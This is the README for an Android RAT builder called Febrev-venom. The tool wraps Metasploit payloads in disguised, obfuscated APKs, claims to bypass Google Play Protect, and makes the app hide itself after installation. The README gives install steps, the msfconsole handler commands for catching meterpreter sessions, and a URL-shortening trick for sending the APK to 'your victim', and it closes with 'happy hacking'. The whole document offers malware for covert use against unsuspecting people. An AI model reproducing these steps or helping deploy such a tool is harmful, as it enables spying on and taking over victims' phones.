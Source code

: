 # NEW VERSION 3.0
# Febrev-venom updated to version 3.0
# Added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name, Obfuscates the Apk , Makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


**must run as root
 must run in debian-based linux distro like kali

## USAGE:
   
   come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 # use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
   
 # OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    1.open another terminal without closing the current one
    2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 # happy hacking.....!!!!!
 
 ## ----------------------------------------------------------------------------------------
   
